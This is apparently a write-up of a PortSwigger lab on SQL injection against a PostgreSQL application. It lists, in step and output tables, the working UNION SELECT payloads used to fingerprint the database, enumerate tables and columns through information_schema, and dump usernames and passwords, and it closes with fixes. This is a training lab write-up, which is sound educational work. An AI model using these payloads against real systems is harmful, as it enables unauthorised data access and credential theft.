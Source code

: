 # SQL injection attack, listing the database contents on non-Oracle databases

![Lab banner – PortSwigger Practitioner level](1.png)

---

## Executive Summary

In the PortSwigger Web Security Academy lab *“SQL injection attack: listing the database contents on non-Oracle databases”*, we demonstrated how an attacker can enumerate **all database tables, their columns, and sensitive user credentials** using a series of `UNION SELECT` queries against `information_schema`.
Because the application dynamically concatenates user-supplied text into its SQL queries without sanitisation, we pivoted from a simple injection test to full schema enumeration and credential harvesting.

---

# Descriprion

![Lab banner – PortSwigger Practitioner level](2.png)

---

## Why This Matters to You

* **Full data breach:** Once table names and column names are known, dumping sensitive data (usernames, passwords, payment details) becomes trivial.
* **Persistence risk:** Knowledge of schema details makes backdoor creation easier for attackers.
* **Compliance violations:** Any unauthorised access to stored credentials can trigger GDPR, CCPA, or similar regulatory reporting requirements.

---

## Step-by-Step Walk-Through

| # | What we did (payload URL-encoded where needed)                                                                                                                   | Intended SQL generated by the app                                                                                                              | What actually happens & why                                          |
| - | ---------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------- |
| 1 | **Confirmed vulnerability** and identified DB type as **PostgreSQL** with:<br>`' UNION SELECT NULL,version()--`                                                  | `SELECT * FROM someTable WHERE category='X' UNION SELECT NULL, version()--'`                                                                   | Version string confirms PostgreSQL back-end.                         |
| 2 | **Enumerated tables** with:<br>`' UNION SELECT table_name,table_schema FROM information_schema.tables--`                                                         | `SELECT * FROM someTable WHERE category='X' UNION SELECT table_name, table_schema FROM information_schema.tables--'`                           | Listed all table names/schemas, including one called `users_xjwuk`. |
| 3 | **Enumerated columns** for the `users_xjwuk` table with:<br>`' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_xjwuk'--` | `SELECT * FROM someTable WHERE category='X' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_xjwuk'--'` | Revealed columns `username_spivdg` and `password_ebvdu`.            |
| 4 | **Dumped credentials** with:<br>`' UNION SELECT username_spivdg,password_ebvdu FROM users_xjwuk--`                                                             | `SELECT * FROM someTable WHERE category='X' UNION SELECT username_spivdg, password_ebvdu FROM users_xjwuk--'`                                | Retrieved all stored usernames and passwords.                        |
| 5 | **Logged in** using harvested credentials.                                                                                                                       | —                                                                                                                                              | Administrative access granted, lab solved.                           |

---

## Observable Output

| Test / Payload                                                                                      | Visible result                        | What it proved                              |
| --------------------------------------------------------------------------------------------------- | ------------------------------------- | ------------------------------------------- |
| `' UNION SELECT NULL,version()--`                                                                   | `PostgreSQL 14.x ...`                 | Backend database type & version confirmed.  |
| `' UNION SELECT table_name,table_schema FROM information_schema.tables--`                           | Long list of table names              | Schema enumeration works.                   |
| `' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_xjwuk'--` | `username_spivdg` / `password_ebvdu` | Sensitive column names identified.          |
| `' UNION SELECT username_spivdg,password_ebvdu FROM users_xjwuk--`                                | List of usernames and passwords       | **Complete credential disclosure** achieved |

---


## Conclusion

By leveraging basic UNION-based SQL injection against `information_schema`, we escalated from product-list manipulation to a **full database breach**, including credential theft. The fix requires moving away from string-concatenated SQL, enforcing least-privilege DB roles, and hardening password storage practices.

